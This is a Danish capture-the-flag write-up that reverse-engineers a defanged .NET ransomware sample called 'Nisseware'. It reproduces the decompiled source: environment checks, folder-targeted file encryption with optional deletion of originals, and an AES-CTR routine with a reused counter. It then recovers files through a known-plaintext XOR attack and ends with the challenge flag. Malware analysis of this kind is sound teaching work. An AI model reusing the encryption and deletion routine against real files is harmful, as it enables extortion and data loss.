

# Writeup

Vi fik i [Nisseware: Dropper](../nisseware-dropper/) extracted filerne fra 7z SFX filen, specifikt `flag.txt` med flaget til den opgave samt selve ransomwaren `conhost.exe` og `conhost.runtimeconfig.json`. Programmet er navngivet på den måde, da `conhost.exe` er en normal process i Windows, som ransomwaren dermed bedre går i ét med.

Kører vi `file` på programmet, får vi:

```console
$ file conhost.exe
conhost.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Det er altså umiddelbart en `.NET`-applikation, hvilket runtime config filen også vidner om:

```json
{
  "runtimeOptions": {
    "tfm": "net7.0",
    "framework": {
      "name": "Microsoft.NETCore.App",
      "version": "7.0.0"
    }
  }
}
```

Her ser vi specifikt, det er version `7.0.0`. `.NET` er godt nyt for os, for det kan dekompileres direkte tilbage til source kode med tools som [ILSpy](https://github.com/icsharpcode/ILSpy) og [dnSpy](https://github.com/dnSpyEx/dnSpy). Vi åbner filen i `ILSpy` og ser på den indledende info:


Her ses bl.a., at programmet hedder `Nisseware`, er skrevet i `.NET 7.0` og er i version `1.0.0.0` - det er også tilsyneladende compilet i `Debug` mode.
Klikker vi os ned til selve programmet, ser vi følgende funktioner:



Der er tilsyneladende et `debug` flag i programmet, en `Main` funktion, samt funktioner til kryptering, generering af ransomnote og til at defange programmet, så det kun kører under meget specifikke forhold. Programmets entrypoint er `Main`, så det vil være naturligt at starte derfra:

```cs
private static void Main(string[] args)
{
    debug = args.Contains("--debug");
    if (debug) {
        Console.WriteLine("Starting Nisseware...");
    }

    Console.Write("Password: ");
    string password = Console.ReadLine();
    byte[] key = GetMD5Hash(password);

    DefangMalware();

    string[] folders = new string[3] {
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "blueprints_legetøj"),
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "produkt_salg"),
        Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "fælles_installationsfiler")
    };

    string[] array = folders;
    foreach (string folder in array) {
        if (debug) {
            Console.WriteLine("Encrypting files in folder " + folder + "...");
        }
        string[] files = Directory.GetFiles(folder);
        string[] array2 = files;
        foreach (string file in array2) {
            EncryptFile(file, key, args.Contains("--delete-original"));
        }
    }

    if (debug) {
        Console.WriteLine("Nisseware has finished encrypting all files.");
    }

    GenerateRansomNote(key);
}
```

Det ser ud til, at `debug`-flaget sættes, hvis man giver programmet argumentet `--debug`, når det køres, og at det flag slår en masse debug prints til undervejs.
Herefter læses et password fra `stdin`, som gives som argument til `GetMD5Hash()`, og resultatet bruges som `key` - dvs. umiddelbart er krypteringsnøglen til programmet et MD5 hash af input passwordet, hvilket kan bekræftes med en inspektion af den funktion:

```cs
private static byte[] GetMD5Hash(string s) {
    if (debug) {
        Console.WriteLine("Generating MD5 hash for string " + s + "...");
    }
    using (MD5 md5 = MD5.Create()) {
        byte[] b = Encoding.UTF8.GetBytes(s);
        return md5.ComputeHash(b);
    }
}
```

Herefter kaldes `DefangMalware()`, der er designet til at gøre ransomwaren mere sikker, hvis nogen skulle få lyst til at køre den selv eller lave noget dynamisk analyse:

```cs
private static void DefangMalware() {
    if (debug) {
        Console.WriteLine("Defanging malware...");
    }

    if (DateTime.Now >= new DateTime(DateTime.Now.Year, 11, 30)) {
        if (debug) {
            Console.WriteLine("Timestamp is too late");
        }
        ExitWithWarning();
    }

    string computerName = Dns.GetHostName();
    Console.WriteLine("Computer name: " + computerName);
    if (computerName != "LegetøjROs") {
        if (debug)
        {
            Console.WriteLine("Computer name doesn't match expected");
        }
        ExitWithWarning();
    }

    string username = Environment.UserName;
    Console.WriteLine("Username: " + username);
    if (username != "Alf") {
        if (debug) {
            Console.WriteLine("Username doesn't match expected");
        }
        ExitWithWarning();
    }
}
```

Funktionen tjekker, om programmet køres efter `11/30/2023`, om computerens navn er `LegetøjROs`, og om brugernavnet er `Alf`.
Hvis blot én af disse betingelser ikke er opfyldt, printer programmet en fejl (i debug mode) og kalder `ExitWithWarning()`:

```cs
private static void ExitWithWarning() {
    Console.WriteLine("ADVARSEL: Kør ikke programmet på din lokale maskine, brug en VM!");
    Console.WriteLine("WARNING: Do not run this program on your local machine, use a VM!");
    Environment.Exit(0);
}
```

Ransomwaren er altså utroligt sikret, så der ikke kan ske noget ved en fejl - den er endda sikret yderligere, da den kun krypterer filer i meget specifikke mapper som set i næste del af `Main`:

```cs
string[] folders = new string[3] {
    Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "blueprints_legetøj"),
    Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "produkt_salg"),
    Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Personal), "fælles_installationsfiler")
};

string[] array = folders;
foreach (string folder in array) {
    if (debug) {
        Console.WriteLine("Encrypting files in folder " + folder + "...");
    }
    string[] files = Directory.GetFiles(folder);
    string[] array2 = files;
    foreach (string file in array2) {
        EncryptFile(file, key, args.Contains("--delete-original"));
    }
}
```

Der laves altså en liste med tre specifikke mappenavne, der nok er til stedet i `Alf`s dokumentmappe (kan verificeres med memory dump),
og for hver af disse kaldes `Directory.GetFiles(folder)` for at få en liste over alle filnavne i mappen.
For hver fil kaldes så `EncryptFile()` med filens navn, den genererede key og sidst et flag, der beskriver, om programmet blev kørt med argumentet `--delete-original`.

Lad os se på den krypteringsfunktion:

```cs
private static void EncryptFile(string filePath, byte[] key, bool deleteOriginalFile = false) {
    if (debug) {
        Console.WriteLine("Encrypting file " + filePath + "...");
    }

    byte[] salt = new byte[16] {
        1, 35, 69, 103, 137, 171, 205, 239, 254, 220,
        186, 152, 118, 84, 50, 16
    };

    using (Stream inputStream = File.OpenRead(filePath)) {
        using (Stream outputStream = File.Create(filePath + ".nis")) {
            AesEncrypt(key, salt, inputStream, outputStream);
        }
    }

    if (deleteOriginalFile) {
        if (debug) {
            Console.WriteLine("Deleting original file " + filePath + "...");
        }
        File.Delete(filePath);
    }
}
```

Funktionen initialiserer først et `salt` - det ser lidt tilfældigt ud, men er mindre tilfældigt i hex:

```cs
0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
0xfe, 0xdc, 0xba, 0x98, 0x76, 0x54, 0x32, 0x10
```

Saltet er hardcoded, og dermed er både salt og key ens for hver kryptering - det er værd at bide mærke i.

Nu åbnes filen og en ny fil med samme filnavn, men den ekstra endelse `.nis`, og så kaldes `AesEncrypt()`, hvilket vi må formode bruger `key` og `salt` til at kryptere `inputStream` og skrive det til `outputStream`. Sidst slettes filen, men kun hvis `deleteOriginalFile` er sat til `true`, dvs. hvis programmet blev kørt med argumentet `--delete-original`. Dette er igen for at sikre det en smule mere.

Næste step er at analysere selve krypteringsalgoritmen - måske har `N1ss3b4nd3n` lavet en dum fejl, der gør dekryptering mulig:

```cs
public static void AesEncrypt(byte[] key, byte[] salt, Stream inputStream, Stream outputStream) {
    SymmetricAlgorithm aes = Aes.Create();
    aes.Mode = CipherMode.ECB;
    aes.Padding = PaddingMode.None;

    int blockSize = aes.BlockSize / 8;
    byte[] c = (byte[])salt.Clone();

    Queue<byte> xorMask = new Queue<byte>();
    byte[] zeroIv = new byte[blockSize];

    ICryptoTransform encryptor = aes.CreateEncryptor(key, zeroIv);
    int b;
    while ((b = inputStream.ReadByte()) != -1) {
        if (xorMask.Count == 0) {
            byte[] block = new byte[blockSize];
            encryptor.TransformBlock(c, 0, c.Length, block, 0);

            int i2 = c.Length - 1;
            while (i2 >= 0 && ++c[i2] == 0) {
                i2--;
            }

            byte[] array = block;
            foreach (byte b2 in array) {
                xorMask.Enqueue(b2);
            }
        }

        byte mask = xorMask.Dequeue();
        outputStream.WriteByte((byte)((byte)b ^ mask));
    }
}
```

Her bruges standard `Aes` module fra `System.Security.Cryptography` med `ECB` mode og zero IV, dvs. umiddelbart det samme som ingen mode.
Læg dog mærke til, at vores `inputStream` ikke i sig selv krypteres direkte med AES. I stedet genereres en XOR mask on the fly, som plaintexten XOR-krypteres med.

I loopet tjekkes, om der er flere bytes tilbage i XOR-masken. Hvis ikke, tager vi vores salt og AES-krypterer med `encryptor.TransformBlock()`, og det er vores mask.
Herefter lægges 1 til vores salt. Dvs. vi genererer én 16-byte XOR-mask af gangen, og for hver runde, er der lagt 1 mere til saltet, som jo er det, der krypteres - resultatet skifter derfor helt hver gang.

I praksis har vi altså en algoritme, der AES-krypterer en værdi, XOR en plaintext block med resultatet, lægger 1 til værdien og fortsætter med næste block.
Det er præcis [AES-CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)), hvor man ikke krypterer plaintexten direkte med AES, men i stedet en running counter, der XORes på plaintext for at kryptere:


Der er ikke i sig selv noget i vejen med implementeringen her, den er kun custom, fordi `Aes` fra `System.Security.Cryptography` ikke supporterer CTR mode.
Men i CTR mode genereres jo så i praksis en keystream, der bare XORes på plaintexten. Det er derfor enormt vigtigt *aldrig* at genbruge samme counter med samme key, for så vil samme keystream block genereres.

Det er lige præcis `N1ss3b4nd3n`s fejl her! De genbruger samme salt (altså counter) til hver eneste kryptering, så alle filer er krypteret ved at XOR med en identisk keystream!
Det åbner op for et known plaintext attack: Hvis vi kender den originale plaintext på en krypteret fil, kan vi XOR originalfilen med den krypterede udgave og på den måde genskabe keystreamen (i hvert fald lige så mange keystream bytes som filens størrelse).

Når først vi har keystreamen, kan vi dekryptere alle filer op til det antal bytes, vi har leaket:

```
keystream = kendt_ciphertext ^ kendt_plaintext
dekrypteret = keystream ^ krypteret
```

Dvs. vores opgave er nu at se, om vi har en krypteret fil, vi kender eller kan finde plaintexten på.
Umiddelbart har vi tre filer at gøre godt med: Et ukendt billede fra computeren, et regneark fra computeren og sidst `7z.exe.nis`, altså oprindeligt en fil med navnet `7z.exe`.
Det ligner enten et direkte eksekverbart program eller en installationsfil - uanset hvad tyder det på et program, der er blevet hentet fra nettet og derfor kan findes igen!

Her kan man vælge at gætte sig lidt frem og prøve forskellige muligheder (jeg har valgt at være flink og bruge den mest åbenlyse download),
men der er en meget bedre og sikrere måde at finde frem til den korrekte fil: RAM-dumpet.
Til analyse af memory dumps bruges tit [Volatility](https://github.com/volatilityfoundation/volatility), men det er faktisk ikke nødvendigt her, da vi bare er interesserede i at lede efter besøgte URLs - den hurtige og lette måde at tjekke på er med `strings` og filtrere resultater, der starter med `http` og indeholder `7z` og `.exe` i den rækkefølge:

```console
$ strings memdump.raw | grep "http.*7z.*\.exe"
https://7-zip.org/a/7z2301-x64.exeA
https://7-zip.org/a/7z2301-x64.exe
1/0/_dk_https://7-zip.org https://7-zip.org https://7-zip.org/a/7z2301-x64.exe
&https://www.7-zip.org/a/7z2301-x64.exe
"https://7-zip.org/a/7z2301-x64.exe
```

Her får vi samme link flere gange (nogle gange med en ASCII-byte, der tilfældigvis kom lige før eller efter): https://7-zip.org/a/7z2301-x64.exe.
Det virker sandsynligt, det er den URL, vores forurettede besøgte, da de downloadede programmet, og vi downloader samme program.

Vi kan nu genskabe keystreamen og decrypte den mest interessante af de udleverede filer (`BounceNBeep PlayCruiser.jpeg.nis`) med følgende lille Python script:

```py
def xor(a, b):
    return bytes([x ^ y for x, y in zip(a, b)])

# Recover keystream using known (plaintext, ciphertext)-files
with open("7z.exe.nis", "rb") as f:
    ct_7z = f.read()

with open("7z2301-x64.exe", "rb") as f:
    pt_7z = f.read()

keystream = xor(pt_7z, ct_7z)

# Decrypt encrypted file using keystream
with open("BounceNBeep PlayCruiser.jpeg.nis", "rb") as f:
    ct_flag = f.read()

pt_flag = xor(ct_flag, keystream)

# Write decrypted file to disk
with open("BounceNBeep PlayCruiser.jpeg", "wb") as f:
    f.write(pt_flag)
```

Det dekrypterer korrekt virksomhedens krypterede blueprint, hvorpå flaget kan ses:


Samtidig viser det, at vi nu i princippet kan dekryptere alle krypterede filer på forurettedes maskine - i hvert fald de første ca. `1.6 MB`, da det er den mængde keystream bytes, vi lige nu har genskabet fra 7z-installeren.
Nu har virksomheden fået sine filer dekrypteret, og `N1ss3b4nd3n` har mindre at afpresse dem med.

Et naturligt næste skridt herefter vil være at se på ransomnoten i [Nisseware: Ransom](../nisseware-ransom/) eller at gå efter selve gruppen og deres server i [Nisseware: OSINT](../nisseware-osint/) og herefter [Nisseware: Infrastructure](../nisseware-infrastructure/).

**Flag**

`NC3{d0n7_r0ll_y0ur_0wn_cryp70}`
